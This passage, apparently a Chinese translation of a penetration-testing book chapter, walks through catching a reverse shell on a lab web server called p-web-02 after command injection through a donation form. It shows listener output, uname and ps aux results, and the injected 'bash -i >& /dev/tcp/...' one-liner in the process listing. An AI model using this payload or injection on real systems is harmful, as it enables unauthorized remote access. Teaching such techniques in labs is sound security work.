 图 7-2：成功将反向 shell 有效载荷注入 p-web-02

点击 **Donate** 按钮应立即触发反向 shell 连接。在运行 shell 监听器的 Kali 终端窗口中，你应看到以下输出：

```
`--snip--`
listening on [any] 1337 ...
172.16.10.12: inverse host lookup failed: Unknown host
connect to [172.16.10.1] from (UNKNOWN) [172.16.10.12] 54530
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@p-web-02:/var/www/html$ 
```

成功！我们已经再次获得了一个 shell，并攻陷了 *p-web-02* 服务器。在最后一行的提示符中，我们可以看到确认信息，表明我们已经通过使用 *www-data* 用户在 *p-web-02* 主机上获得了一个活动的 shell，并且当前工作目录是 */var/www/html*。

### 执行命令

现在我们可以像使用任何其他 shell 一样使用 Kali shell 监听器终端。让我们通过反向 shell 在 *p-web-02* 上远程执行一个 bash 命令：

```
`--snip--`
bash: no job control in this shell
www-data@p-web-02:/var/www/html$ **uname -a**

Linux p-web-02.acme-impact-alliance.com 6.1.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC
Debian 6.1.12-1kali1 x86_64 GNU/LinuxTypes of Reverse Shells 
```

在本示例中，我们远程执行了 uname -a 命令，并自动将其输出流返回给 Kali 监听器。

我们甚至可以通过输入进程快照命令 ps aux 来进行一些连接的内部查看，查看当前正在运行的反向 shell 进程（列出 7-2）。

```
`--snip--`
www-data@p-web-02:/var/www/html$ **ps aux**

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT  TIME COMMAND
root           1  0.0  0.4 233332 38868 ?        Ss    0:03 apache2 -DFOREGROUND
www-data      19  0.0  0.2 234012 21652 ?        S     0:00 apache2 -DFOREGROUND
www-data      20  0.0  0.2 234012 21384 ?        S     0:00 apache2 -DFOREGROUND
www-data      21  0.0  0.5 234644 47224 ?        S     0:00 apache2 -DFOREGROUND
www-data      22  0.0  0.2 234020 21776 ?        S     0:00 apache2 -DFOREGROUND
www-data      23  0.0  0.2 234020 21528 ?        S     0:00 apache2 -DFOREGROUND
www-data      24  0.0  0.2 234012 21448 ?        S     0:00 apache2 -DFOREGROUND
www-data     131  0.0  0.0   2480   520 ?        S   ❶ 0:00 sh -c echo | bash -c
'bash -i >& /dev/tcp/172.16.10.1/1337 0>&' >> amount_to_donate.txt
www-data     133  0.0  0.0   3896  2948 ?        S   ❷ 0:00 bash -c bash -i >&
/dev/tcp/172.16.10.1/1337 0>&1
www-data     134  0.0  0.0   4160  3516 ?        S   ❸ 0:00 bash -i
www-data     169  0.0  0.0   6756  2944 ?        R     0:00 ps aux 
```

列出 7-2：查看进程信息
